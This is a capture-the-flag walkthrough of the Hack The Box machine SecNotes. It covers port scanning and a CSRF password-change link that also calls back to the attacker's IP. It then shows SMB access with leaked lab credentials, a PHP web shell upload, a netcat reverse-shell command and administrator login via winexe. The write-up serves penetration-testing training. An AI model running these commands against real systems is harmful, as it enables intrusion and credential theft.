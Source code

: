 # [SecNotes](https://app.hackthebox.com/machines/secnotes)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.97 -Pn
```

![Alt text](img/image.png)

After knowing open ports(80,445,8808), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,445,8808 10.10.10.97 -Pn
```

![Alt text](img/image-2.png)


I see login and register page of application on port (80).

![Alt text](img/image-1.png)


Let's register and login.


dr4ks: dr4ks1


![Alt text](img/image-3.png)


I enumerate web application and can't find anything, but one thing is that I can do CSRF (Cross-Site Request Forgery) attack on page of 'Contact'.

Let's try this.

![Alt text](img/image-4.png)

![Alt text](img/image-5.png)


I see that while sending request to 'tyler' user, it automatically clicks.

If I send malicious link (password change) to him, I can know his password.

Let's enumerate password change function.

![Alt text](img/image-6.png)


Now, I will put this malicious password change into Contact section and tyler clicks this and I can see his password.

```bash
http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http://10.10.16.8/attackedworkeddr4ks
```

![Alt text](img/image-7.png)

![Alt text](img/image-8.png)

Yes attack worked.


Let's login to 'tyler' account via 'password'.

![Alt text](img/image-9.png)



Hola, we find his cleartext credentials(calls for **new site**).

![Alt text](img/image-10.png)


tyler / 92g!mA8BGjOirkL%OG*&


I try to access SMB share via this credentials and it worked.

```bash
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
```

![Alt text](img/image-11.png)


We have 'WRITE' privilege for 'new-site' share, if we upload something to here, we can see from HTTP server which locating on **port '8808'**

Let's try this.

![Alt text](img/image-12.png)

![Alt text](img/image-13.png)

Let's add our webshell to execute commands.

![Alt text](img/image-15.png)

![Alt text](img/image-16.png)

Let's add 'nc.exe' file into this machine to get reverse shell.

![Alt text](img/image-14.png)


Now, browse the page and add reverse shell command.

```bash
curl "http://10.10.10.97:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.16.8+1337"
```

![Alt text](img/image-17.png)


user.txt

![Alt text](img/image-20.png)


![Alt text](img/image-18.png)

I find credentials here.

secnotes: q8N#9Eos%JinE57tke72

root: qwer1234QWER!@#$


Now, I enumerate more and find 'bash.lnk' file on 'tyler' Desktop.

![Alt text](img/image-19.png)

I just switched into `powershell`.

While I just run  `bash.exe` on Powershell, it gives me 'root' user on Linux machine.

![Alt text](img/image-21.png)


As you see from image , I see 'Administrator' credentials on **`.bash_history`** file.

administrator%u6!4ZwgwOM#^OBf#Nwnh

I just use `winexe` tool to access into machine via 'Admin' privileges.

```bash
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```

![Alt text](img/image-22.png)


root.txt

![Alt text](img/image-23.png)